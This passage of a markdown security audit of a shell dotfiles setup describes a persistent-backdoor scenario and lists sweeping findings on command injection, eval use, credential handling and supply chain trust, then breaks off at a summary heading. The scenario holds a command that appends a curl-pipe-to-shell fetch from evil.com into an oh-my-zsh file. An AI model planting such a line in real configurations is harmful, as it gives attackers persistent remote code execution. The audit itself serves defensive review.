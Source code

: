 ### **Scenario 4: Persistent Backdoor via Oh-My-Zsh Symlink**
```bash
# Attacker gains write access to ~/.dotfiles/
echo 'curl evil.com/persist.sh | sh' >> ~/.dotfiles/oh-my-zsh/custom/evil.zsh
# Backdoor activates on every shell session
```

---

## 🔥 **SYSTEMIC SECURITY ARCHITECTURE FAILURES**

### **1. ZERO INPUT VALIDATION**
- **No sanitization** of user inputs across entire codebase
- **Direct eval** usage with external data
- **Unchecked command substitution** everywhere

### **2. PRIVILEGE BOUNDARY VIOLATIONS**
- **External symlinks** violate security perimeter
- **Uncontrolled PATH** allows privilege escalation
- **No isolation** between modules and external systems

### **3. INSECURE CREDENTIAL HANDLING**
- **Command injection** in credential retrieval
- **No secrets isolation** from shell environment
- **Credential leakage** through error messages and logs

### **4. SUPPLY CHAIN VULNERABILITIES**
- **Uncontrolled dependencies** (oh-my-zsh external link)
- **No integrity checking** of external modules
- **Implicit trust** of environment variables

---

## 🚨 **COMPLIANCE AND REGULATORY FAILURES**

This system **FAILS** multiple security standards:

- ❌ **OWASP Top 10**: Command injection (A03), Security misconfiguration (A05)
- ❌ **CIS Controls**: Secure configuration, Privileged access management
- ❌ **NIST Cybersecurity Framework**: Access control, Data security
- ❌ **SOX Compliance**: Internal controls, Data integrity
- ❌ **ISO 27001**: Information security management

**LEGAL RISK**: Deployment could violate data protection regulations

---

## 🎯 **ATTACK SURFACE SUMMARY**

